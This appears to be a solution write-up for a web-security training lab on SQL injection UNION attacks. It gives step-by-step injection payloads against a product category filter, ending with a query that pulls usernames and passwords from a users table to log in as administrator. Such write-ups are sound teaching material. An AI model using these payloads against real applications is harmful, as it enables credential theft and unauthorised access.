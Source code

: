 # SQL injection UNION attack, retrieving data from other tables
# Objective
This lab contains a SQL injection vulnerability in the product category filter. The results from the query are returned in the application's response, so you can use a UNION attack to retrieve data from other tables. To construct such an attack, you need to combine some of the techniques you learned in previous labs.\
\
The database contains a different table called users, with columns called username and password.\
\
To solve the lab, perform a SQL injection UNION attack that retrieves all usernames and passwords, and use the information to log in as the administrator user.

# Solution
`/filter?category=’` —> Application is vulnerable 

## Determining the number of columns
`/filter?category=Gifts' order by 1--` \
`/filter?category=Gifts' order by 2--` \
`/filter?category=Gifts' order by 3--` —> Error \
`/filter?category=Gifts' union select null, null--` —> Number of columns = 2

## Determining the types of columns
`/filter?category=Gifts' union select 'a', 'a'--` —> Both columns are string type

## Retrieving usernames and passwords
```
/filter?category=' union select username, password from users--
```
